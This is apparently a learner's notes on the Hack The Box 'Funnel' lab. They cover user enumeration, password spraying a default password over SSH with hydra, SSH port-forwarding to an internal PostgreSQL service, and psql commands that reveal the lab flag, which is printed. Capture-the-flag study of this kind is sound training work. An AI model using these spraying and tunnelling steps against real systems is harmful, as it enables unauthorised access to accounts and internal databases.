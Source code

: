 
### TUNNEL

![[Screenshot 2024-05-13 at 11.12.10 PM.png]]

![[Screenshot 2024-05-13 at 11.13.38 PM.png]]

![[Screenshot 2024-05-13 at 11.17.30 PM.png]]

![[Screenshot 2024-05-13 at 11.18.02 PM.png]]

![[Pasted image 20240513231934.png]]

```
┌──(root㉿kali)-[/home/f4th3rl0s]
└─# cat welcome_28112022 
Frome: root@funnel.htb
To: optimus@funnel.htb albert@funnel.htb andreas@funnel.htb christine@funnel.htb maria@funnel.htb
Subject:Welcome to the team!

Hello everyone,
We would like to welcome you to our team. 
We think you’ll be a great asset to the "Funnel" team and want to make sure you get settled in as smoothly as possible.
We have set up your accounts that you will need to access our internal infrastracture. Please, read through the attached password policy with extreme care.
All the steps mentioned there should be completed as soon as possible. If you have any questions or concerns feel free to reach directly to your manager. 
We hope that you will have an amazing time with us,
The funnel team.
```

![[Screenshot 2024-05-13 at 11.22.20 PM.png]]

Users

```
root@funnel.htb
optimus@funnel.htb 
albert@funnel.htb 
andreas@funnel.htb 
christine@funnel.htb 
maria@funnel.htb
```

**HYDRA**
#tools 

==`hydra -L users.txt -p 'funnel123#!#' 10.129.228.195 ssh`==

![[Pasted image 20240515194229.png]]

Christine did not change default password `funnel123#!#`
![[Screenshot 2024-05-13 at 11.28.46 PM.png]]

![[Screenshot 2024-05-13 at 11.30.34 PM.png]]

Looking through files does not lead to much however lookig for services listening has led to a discovery

==`netstat -tuln`==
![[Screenshot 2024-05-13 at 11.37.07 PM.png]]

==`ss -tl`==
![[Screenshot 2024-05-13 at 11.53.59 PM.png]]

==`ss -tln`==
![[Pasted image 20240515194955.png]]

==Port 5432== - Listening locally on the host on not visible externally

Addresses `0.0.0.0` , `*` , and `[::]` indicate that a port is listening on all interfaces, meaning that it is accessible externally, as well as locally, which is why we were able to detect both the FTP service on port 21 , as well as the SSH service on port 22

***

#### ==SSH Tunneling==

[[Visuals.canvas|Visuals]]



The SSH protocol is vastly used for maintaining and accessing remote systems in a secure and encrypted way. But, it also offers the possibility to create tunnels that operate over the SSH protocol. More specifically, SSH offers various types of tunnels

There are some potential workarounds involving uploading static binaries onto the target machine to exploit, however, an easier way to bypass this roadblock is by a practice called ==port-forwarding, or tunneling, using SSH .==


==`ssh -L 1234:localhost:5432 christine@10.129.228.195`==

![[Screenshot 2024-05-15 at 8.11.43 PM.png]]


We can also send this tunnel to the background in order to keep working within the same shell by using `-f` and `-N` switches:

==`ssh -L 1234:localhost:5432 christine@10.129.228.195 -f -N`==

![[Pasted image 20240515203853.png]]



Newly opened Socket on Attacking machine
![[Screenshot 2024-05-15 at 8.12.58 PM.png]]

#### **PostgreSQL**

![[Screenshot 2024-05-13 at 11.39.11 PM.png]]

==`psql`==
#tools 
CLI tool to interact with PostgreSQL
Using ==**psql**== , we can now interact with the PostgreSQL service running locally on the target machine.

We make sure to specify localhost using the ==`-h`== option, as we are targeting the tunnel we created earlier with SSH , as well as port 1234 with the ==`-p`== option, which is the port the tunnel is listening on.

==`psql -U christine -h localhost -p 1234`==

![[Pasted image 20240515201617.png]]


TOP PostgreSQL Commands to know: 
https://hasura.io/blog/top-psql-commands-and-flags-you-need-to-know-postgresql

==`\l`==
- List Databases
![[Screenshot 2024-05-15 at 8.20.29 PM.png]]

==`\c`== 
- Switch to another DB

==`\dt`==
- List DB tables

![[Screenshot 2024-05-15 at 8.22.20 PM.png]]


==`\du`==
- List user and roles

![[Pasted image 20240515202646.png]]

==`SELECT * FROM flag;`==

![[Screenshot 2024-05-15 at 8.30.55 PM.png]]

flag : cf277664b1771217d7006acdea006db1

*This can also be achieved using Dynamic port forwarding but requires ==`proxychains`== configuration. See Walkthrough appendix

***
***

